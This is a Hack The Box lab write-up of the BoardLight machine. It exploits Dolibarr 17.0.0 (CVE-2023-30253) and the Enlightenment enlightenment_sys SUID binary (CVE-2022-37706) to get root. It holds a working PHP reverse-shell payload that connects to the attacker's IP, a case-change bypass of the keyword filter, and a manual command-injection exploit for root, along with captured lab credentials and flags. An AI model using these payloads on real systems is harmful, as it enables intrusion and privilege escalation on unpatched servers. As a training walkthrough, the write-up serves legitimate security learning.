

---

- **Target:** HTB BoardLight - Linux
- **Author:** sonyahack1
- **Date:** 17.05.2025
- **Difficulty:** Easy

---

## Table of Contents

- [Summary](#summary)
- [Recon](#recon)
- [Entry Point](#entry-point)
- [Dolibarr CVE](#dolibarr-CVE-2023-30253)
- [Horizontal Privilege Escalation](#horizontal-privilege-escalation)
- [Vertical Privilege Escalation](#vertical-privilege-escalation)
- [Enlightenment CVE](#enlightenment-CVE-2022-37706)
- [Conclusion](#conclusion)


## Summary

| Stage         | Info                                                               |
|---------------|--------------------------------------------------------------------|
| Entry Point   | CRM `Dolibarr` v17.0.0 - `CVE-2023-30253`                          |
| User Flag     | `960677dc30532069c4427631a84a7d19`                                 |
| Root Flag     | `ae98930d57f5c9aaa794ff930dd9c5fc`                                 |
| Credentials   | `larissa:serverfun2$2023!!` 			                     |

---

> Add ip address in /etc/hosts:

```bash

echo '10.10.11.11 BoardLight.htb' | sudo tee -a /etc/hosts

```

---

## Recon

> Scanning the target for open ports and services:

```bash

nmap -sVC -p- -vv -T5 BoardLight.htb -oN BoardLight_TCP_scan

```

> Result:

```bash

22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH0dV4gtJNo8ixEEBDxhUId6Pc/8iNLX16+zpUCIgmxxl5TivDMLg2JvXorp4F2r8ci44CESUlnMHRSYNtlLttiIZHpTML7ktFHbNexvOAJqE1lIlQlGjWBU1hWq6Y6n1tuUANOd5U+Yc0/h53gKu5nXTQTy1c9CLbQfaYvFjnzrR3NQ6Hw7ih5u3mEjJngP+Sq+dpzUcnFe1BekvBPrxdAJwN6w+MSpGFyQSAkUthrOE4JRnpa6jSsTjXODDjioNkp2NLkKa73Yc2DHk3evNUXfa+P8oWFBk8ZXSHFyeOoNkcqkPCrkevB71NdFtn3Fd/Ar07co0ygw90Vb2q34cu1Jo/1oPV1UFsvcwaKJuxBKozH+VA0F9hyriPKjsvTRCbkFjweLxCib5phagHu6K5KEYC+VmWbCUnWyvYZauJ1/t5xQqqi9UWssRjbE1mI0Krq2Zb97qnONhzcclAPVpvEVdCCcl0rYZjQt6VI1PzHha56JepZCFCNvX3FVxYzEk=
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK7G5PgPkbp1awVqM5uOpMJ/xVrNirmwIT21bMG/+jihUY8rOXxSbidRfC9KgvSDC4flMsPZUrWziSuBDJAra5g=
|   256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILHj/lr3X40pR3k9+uYJk4oSjdULCK0DlOxbiL66ZRWg
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> I see two open ports: `80 web` and `22 ssh`. I also see that the web server is running `Apache 2.4.41`

> I go to the web interface on port 80:


> `Note:` initially I scanned **directories**, **subdomains**, looked for any entry points specifically for the domain that
> I added to **/etc/hosts**.

> Scanned directories via **ffuf**:

```bash

ffuf -w ~/wordlists/directory-list-2.3-big.txt -u 'http://BoardLight.htb/FUZZ' -ic -c -e .php,.bak,.old,.zip

```
> but no useful results:


> I also scanned by subdomains:

```bash

ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://BoardLight.htb' -H 'Host: FUZZ.BoardLight.htb' -mc all -ac

```


> Nothing...

> For a long time I couldn't find a potential vector for developing an attack. I couldn't find an entry point.
> Afterwards I looked through the entire `source code` of the main page `http://BoardLight.htb/`:


> I found the host hostname `board.htb`.

> Added it to **/etc/hosts**

```bash

echo "10.10.11.11 board.htb" | sudo tee -a /etc/hosts

```

> I am rescanning **directories** and **subdomains** from the new domain name `http://board.htb/`:

```bash

ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u 'http://board.htb' -H 'Host: FUZZ.board.htb' -mc all -ac

```

> Result:


> Ok, I found the `crm` subdomain

> add this subdomain in `/etc/hosts`:

```bash

echo '10.10.11.11 crm.board.htb' | sudo tee -a /etc/hosts

```

---

## Entry Point

> I go to `http://crm.board.htb/` and see the login page to the control panel of the CRM system `Dolibarr v17.0.0`:


> `Dolibarr` is a free modular **ERP/CRM system** with a web interface designed to manage business:
> clients, projects, accounts, warehouse, orders and other processes. It is suitable for small and medium businesses
> and can be installed locally or on a server.

> On the login page before entering I see the version of this CRM - `17.0.0`. I immediately searched the network for vulnerabilities for this version and
> found `CVE-2023-30253` related to **php code injection**.

### Dolibarr CVE-2023-30253


> `CVE-2023-30253` is a vulnerability in the `Website` module where an attacker can create a page with malicious PHP code.
> The code is saved and executed as part of the website, which allows for `RCE`.

> In simple terms it works like this:

> the default login and password for Dolibarr is `admin:admin`. I go to the control panel and create a new page through the `websites` module:


> Next, I create a template with an arbitrary name and in the page source code editing settings I enter the php payload:


> I check that the page is displayed correctly:


> All you need to do is replace the test php payload with code from `reverse shell` to gain access to the system.

---

> `Note:` but it is worth mentioning one very important detail regarding the compilation of `php payload`. The essence is how exactly **filtering** Dolibarr works.

> On the server side, simple protection against the introduction of arbitrary php code into dynamically created pages is implemented (some semblance of security)

> I try to write the following php code and save it:

```php

<?php $sock=fsockopen("10.10.14.7",4444);$proc=proc_open("/bin/bash -i",array(0=>$sock,1=>$sock,2=>$sock),$pipes);?>

```
> When I try to save this code I get an error:


> I assume that the server side has filtering implemented at the level of **searching for prohibited lowercase keywords** `<?php`, `system`, `exec`, etc.
> For example, it might look like this:

```php

if (strpos(strtolower($code), '<?php') !== false || strpos(strtolower($code), 'system') !== false) {
    die("PHP code not allowed");
}

```

> So I just need to specify a different register in my payload first. For example `<?PHP` or `<?PhP`:


> And it works and I can save the page with this code.

---

> Ok. To forward a connection to myself I open the view of my page with the php code having previously launched the listener:


> Result:

```bash

nc -lvnp 4444

listening on [any] 4444 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.11.11] 49886

www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ whoami
whoami
www-data
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$

```

> I get connection to the system under user `www-data`.

---

> All the above steps can be automated. There is an exploit for `CVE-2023-30253`:

[Dolibarr_PoC_exploit](https://github.com/dollarboysushil/Dolibarr-17.0.0-Exploit-CVE-2023-30253/blob/main/exploit.py)

> I launch the exploit specifying the Dolibarr URL, connection credentials, and my network settings for the connection:

```bash

python3 doliexploit.py 'http://crm.board.htb' admin admin 10.10.14.7 4445

```

> `Note`: The exploit will do all the actions using the functions `def create_site`, `def create_page`, `def edit_page` - that is, it also creates a
> site via the `websites` module, creates a page, edits it, inserts php with reverse shell code and then makes a POST request to the
> created page to connect to my host.

> Result:

```bash

nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.11.11] 56826
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$

```

> I also get connection to the system under `www-data` user.

---

## Horizontal Privilege Escalation

> There is a local user `larissa` in the system:

```bash

www-data@boardlight:~$ cat /etc/passwd | grep -i bash

root:x:0:0:root:/root:/bin/bash
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash

```
> But I don't have direct access to this user. I need to find credentials for connection.

> I start a search for any configuration files in the web directory that may contain sensitive data:

```bash

find / -type f -name '*conf*' 2>/dev/null | grep -i /var/www

```

> Result


> the file `conf.php` at `/var/www/html/crm.board.htb/htdocs/conf/` contains the following information:

```bash

$dolibarr_main_url_root='http://crm.board.htb';
$dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';
$dolibarr_main_url_root_alt='/custom';
$dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';
$dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';
$dolibarr_main_db_host='localhost';
$dolibarr_main_db_port='3306';
$dolibarr_main_db_name='dolibarr';
$dolibarr_main_db_prefix='llx_';
$dolibarr_main_db_user='dolibarrowner';
$dolibarr_main_db_pass='serverfun2$2023!!';
$dolibarr_main_db_type='mysqli';
$dolibarr_main_db_character_set='utf8';
$dolibarr_main_db_collation='utf8_unicode_ci';

```
> I have credentials for the MySQL database - `dolibarrowner:serverfun2$2023!!`.

> With these credentials I can connect to MySQL:

```bash

www-data@boardlight:~$ mysql -h localhost -u dolibarrowner -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 36
Server version: 8.0.36-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>

```
```bash

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| dolibarr           |
| information_schema |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use dolibarr;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;

```


> `Note:` I'll say right away that I didn't find anything in the DB itself. There is a `dolibarr` database and many `llx_` tables. The `llx_users` table stores password hashes of the
> `admin` and `dolibarr` users. But this is of little use, because the hashes are not brute-forced and I need data from the `larissa` user.
> There is no such data here.

> It is very strange to have credentials for connecting to MySQL but nothing useful can be found there...

> There was nothing left to do but try to connect with the password `serverfun2$2023!!` to the only user in the `larissa` system:

```bash

ssh larissa@10.10.11.11
larissa@10.10.11.11's password:

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

larissa@boardlight:~$

```
> It worked. Although it's strange because it's not an obvious situation for me - to have credentials for the DB that are ultimately used to connect
> via ssh to a local user that is not in the DB...

> anyway I got access to the system under the user `larissa` and take the **first flag**:

```bash

larissa@boardlight:~$ cat user.txt

960677dc30532069c4427631a84a7d19

```
> user flag: `960677dc30532069c4427631a84a7d19`

---

## Vertical Privilege Escalation

> I start searching for files with the flag `setuid`:

```bash

larissa@boardlight:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```

> Result:

```bash

-rwsr-xr-x 1 root root 14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-sr-x 1 root root 14488 Apr  8  2024 /usr/lib/xorg/Xorg.wrap
-rwsr-xr-x 1 root root 26944 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
-rwsr-xr-x 1 root root 14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
-rwsr-xr-x 1 root root 14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
-rwsr-xr-x 1 root root 14648 Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset
-rwsr-xr-- 1 root messagebus 51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 477672 Jan  2  2024 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root dip 395144 Jul 23  2020 /usr/sbin/pppd
-rwsr-xr-x 1 root root 44784 Feb  6  2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 55528 Apr  9  2024 /usr/bin/mount
-rwsr-xr-x 1 root root 166056 Apr  4  2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 67816 Apr  9  2024 /usr/bin/su
-rwsr-xr-x 1 root root 85064 Feb  6  2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 39144 Apr  9  2024 /usr/bin/umount
-rwsr-xr-x 1 root root 88464 Feb  6  2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 68208 Feb  6  2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
-rwsr-xr-x 1 root root 53040 Feb  6  2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 14728 Oct 27  2023 /usr/bin/vmware-user-suid-wrapper

```

> I see unusual `enlightenment` binaries with the **SUID** flag set.

> `Enlightenment` is a window manager (or graphical environment) for X11 and Wayland focused on lightweight,
> performance, and visual effects. It is also known as E and is suitable for low-resource systems.

> It is often used as an alternative to **GNOME**, **KDE**, or **XFCE**.

> In this case, I am interested in the helper utility `enlightenment_sys` because it is used to perform system actions as root
> such as **mounting** filesystems or managing devices through an environment interface.



> From the `strings` result it is clear that the utility implements commands via `system()`.
> If the utility does not filter user data well enough by passing it through `system()`, then a `command injection` vulnerability occurs.

> I check version `enlightenment`:

```bash

larissa@boardlight:~$ enlightenment --version

```

> Result:

```bash

Version: 0.23.1

```

### Enlightenment CVE-2022-37706

> I'm searching the web for a vulnerability for this version of `enlightenment`:


> There is `CVE-2022-37706` which is present in `enlightenment_sys`. It is related to the fact that the binary calls
> `system("/bin/mount ...")` passing user arguments there without validation and escaping.
> This leads to `command injection` which allows you to embed an arbitrary command in the `mount` parameter which
> will be executed with root privileges.

> There is a ready-made exploit for this vulnerability:

[CVE-2022-37706_PoC](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)


> But this can be done manually. I will explain each line of operation along the way

> I create a mount point:

```bash

mkdir -p /tmp/net

```
> Next I do a trick with separating arguments:

```bash

mkdir -p "/dev/../tmp/;/tmp/rootshell"

```

> The path `/dev/../tmp/` is normalized to `/tmp/`. And the `;` character terminates the argument to the `mount` command, and runs `/tmp/rootshell`.
> The final result when executed will look like this:

```bash

system("/bin/mount -o ... '/tmp/'; /tmp/rootshell /tmp/net")

```
> Next I create a file specifying the `bash shell` and make it executable:

```bash

echo "/bin/bash" > /tmp/rootshell

chmod +x /tmp/rootshell

```
> Next, we launch our `enlightenment_sys` and pass it a dummy `mount` call as arguments:

```bash

/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/rootshell" /tmp///net

```
> Result:

```bash

root@boardlight:/tmp# id
uid=0(root) gid=0(root) groups=0(root),4(adm),1000(larissa)
root@boardlight:/tmp#

```
> I get root flag:

```bash

root@boardlight:/tmp# cat /root/root.txt
ae98930d57f5c9aaa794ff930dd9c5fc

```
> root flag: `ae98930d57f5c9aaa794ff930dd9c5fc`


---

## Conclusion

> The `BoardLight` machine was compromised during the exploitation of various vulnerabilities. A vulnerable version of the
> CRM system `Dolibarr 17.0.0` was exploited via `CVE-2023-30253`, which gave initial access to the server under the user `www-data`.
> Then, configuration files (`conf.php`) were found containing credentials that led to the compromise of the user
> `larissa`. During the privilege escalation, the vulnerability `CVE-2022-37706` was used, present in the SUID binary `enlightenment_sys`
> version `0.23.1`, which is part of the `Enlightenment` environment. This vulnerability allows executing arbitrary commands with `root` privileges. > This is achieved by passing unfiltered user input to the `system()` function call, resulting in `command injection`.
> By exploiting this vulnerability, the system was `compromised`.

<p align="center">
  
</p>

---

> During my walkthrough of this machine, I encountered difficulties at the very beginning when scanning the target. I spent quite a lot of time
> to find the entry point, but the problem was that I was scanning the target not by the correct domain name that I had assigned myself.
> The correct domain was in the source code of the page (`board.htb`)

> Also, it was not entirely obvious to me that the credentials were found in the `conf.php` file at `/var/www/html/crm.board.htb/htdocs/conf/`.
> The credentials were related to the database, not to a specific user. But I did not find anything in the database itself. And then it turned out that the password in this
> file was also the password for the `larissa` user account. And I could connect to `larissa` via `ssh`.
